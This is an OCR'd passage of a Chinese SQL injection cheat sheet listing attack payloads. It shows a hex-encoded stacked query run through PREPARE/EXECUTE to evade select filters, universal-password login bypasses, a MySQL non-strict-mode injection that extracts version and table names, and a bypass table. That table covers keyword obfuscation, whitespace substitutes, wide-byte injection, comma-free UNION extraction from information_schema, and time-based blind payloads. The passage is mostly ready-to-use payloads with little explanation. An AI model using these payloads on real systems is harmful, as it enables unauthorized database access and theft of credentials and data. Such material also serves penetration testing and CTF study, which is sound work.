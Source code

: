 ```sql
利用存储过程绕过select过滤
inject=1%27;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare%20execsql%20from%20@a;execute%20execsql;#
```

# **5 万能密码**
```sql
【=】优先于【and】，【and】优先于【or】，且适用传递性
select * from *** where username ="" and password="";
Select * from user where username ='admin' or '1'='1' and password ='';
Select * from user where username ='1'or '1'='1'#' and password ='';
Select * from user where username ='' and password ='Abc' or '1'='1'#';
admin' or 1=1--;
等等

```
# **6 其他非严格模式下的注入方式**
在mysql中，字符串和数组进行或运算时，将得到数字。但是需要注意的是，这个特性需要在MySQL的非严格模式
select 'abc'|123; 结果得到123
```php
$sql1 = "update users set username='$username' where id='$id'";
var_dump($sql1);
$sql2 = "select * from users where id='$id'";
var_dump($sql2);
```
那么接下来就是注入的过程，我们将需要查询的数据转换为数字，转换的方法就是采用转换为十六进制的方法。访问test.php?id=1&username=tom'|conv(hex(version()),16,10)|'或者
?id=1&username=ppp'| conv(hex(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,5)),16,10)|'

得到这个数据之后接下来就是进行解码，解码的方式使用unhex()即可。
# **7 绕过姿势备忘录**
|相关姿势                          |                      具体描述
-|-|
|or and过滤                        |	大小写变形 Or,OR,oR<br>编码，hex，urlencode<br>添加注释/\*or\*/<br>利用符号 and=&& or=\|\|<br>admin'%(ascii(mid(database()) from 1 for 1)=90)%'1<br>admin'^(1)^'1'<br>SELECT * from user where id = ''!=!!(1=2)!=!!'1'|
|空格过滤                           | %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 %0b TAB键（垂直） %a0 空格 |
|关键字的绕过                       | 注释符绕过:uni/\*\*/on se/\*\*/lect <br> 大小写绕过:UniOn SeleCt <br> 双关键字绕过:ununionion seselectlect <br> <>绕过:unio<>n sel<>ect <br>/\*!00000select\*/绕过关键字和正则过滤
|宽字节注入                        | 过滤单引号时，可以试试宽字节%bf%27 %df%27 %aa%27|
|大于号小于号拦截绕过               | id=1 and greatest(ascii(substr(username,1,1)),1)=97 <br> id=1 and strcmp(ascii(substr(username,1,1)),1); <br> id = 1 and substr(username,1,1) in ('a'); <br> id = 1 and substr(username,1,1) between 0x61 and 0x63;|
|逗号绕过                          | 在使用盲注的时候，需要使用到substr(),mid(),limit；这些子句方法都需要使用到逗号。<br>对于substr()和mid()这两个方法可以使用from for的方式来解决，limit则可以用offset<br>select * from sql_test where ascii(mid(username from 1 for 1))>1;<br>substr(x from 1 for 1) mid(x from 1 for 1)<br>select查询时候不使用逗号进行注入的姿势<br>id=3' union select * from(select database()) a join (select version() ) b %23<br>?id=3' union select * from (select group_concat(table_name ) from information_schema.tables where table_schema = 'sqli' ) a join (select version() ) b %23<br>id=' union select * from (select group_concat(column_name) from information_schema.columns where table_name = 'users' ) a join (select version() ) b %23<br>id=' union select * from (select group_concat(username) from users) a join (select group_concat(flag_9c861b688330) from users) b %23<br>1' select case when (substring(select flag from flag from i for 1))=j) then sleep(6) else 0 end and '1'='1<br>1'+substring(select(flag)from(flag)from(i)for(1))=j<br>0'^(select hex(hex(substr((select flag from flag) from {i} for 1))))^'0<br>